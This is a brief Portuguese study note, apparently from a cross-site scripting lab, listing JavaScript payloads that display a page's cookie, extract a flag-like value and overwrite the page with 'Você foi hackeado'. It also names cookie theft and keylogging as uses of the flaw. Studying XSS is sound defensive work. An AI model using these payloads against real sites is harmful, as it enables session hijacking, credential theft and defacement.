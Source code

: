 alert(document.cookie)
	mostra um alerta

document.getElementById("output").innerText = "Cookie value: " + document.cookie;
	retorna "Cookie value: ftCookies=If_You_See_Me_Its_Win"

document.getElementById("output").innerText = "Cookie: " + document.cookie.split("=")[1];
	retorna "Cookie value: If_You_See_Me_Its_Win"

document.body.innerHTML = "<h1>Você foi hackeado</h1>";
	altero o conteúdo da página

Onde essa vulnerabilidade pode ser explorada:
- Roubo de cookies: acesso não autorizado à conta
- Keylogger: Roubo de credenciais